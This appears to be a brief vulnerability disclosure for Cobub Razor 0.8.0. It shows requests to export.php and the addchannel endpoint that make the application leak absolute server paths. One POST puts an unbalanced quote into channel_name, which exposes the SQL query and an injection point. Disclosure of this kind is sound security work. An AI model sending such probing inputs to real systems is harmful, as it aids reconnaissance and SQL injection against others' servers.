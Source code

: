 
## This physical path Leakage exists in Western Bridge Cobub Razor 0.8.0 via a /index.php?/manage/channel/addchannel and /export.php request. ##

The pages leaked the absolute path:  
http://localhost/export.php  
GET method  
Result:
```
Notice: Undefined index: type in D:\phpStudy\PHPTutorial\WWW\export.php on line 22

Notice: Undefined index: svg in D:\phpStudy\PHPTutorial\WWW\export.php on line 23

Notice: Undefined index: filename in D:\phpStudy\PHPTutorial\WWW\export.php on line 24

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 52

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 94
Invalid type
```
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_lackage_1.png)  

http://localhost/index.php?/manage/channel/addchannel  
POST method:channel_name=test"&platform=1  
Result:
```
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '123"' at line 3

select * from razor_channel where (user_id = "1" or type="system") and active=1 and channel_name="test" " and platform="123"

Filename: D:\phpStudy\PHPTutorial\WWW\system\database\DB_driver.php

Line Number: 331
```  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_lackage_2.png)
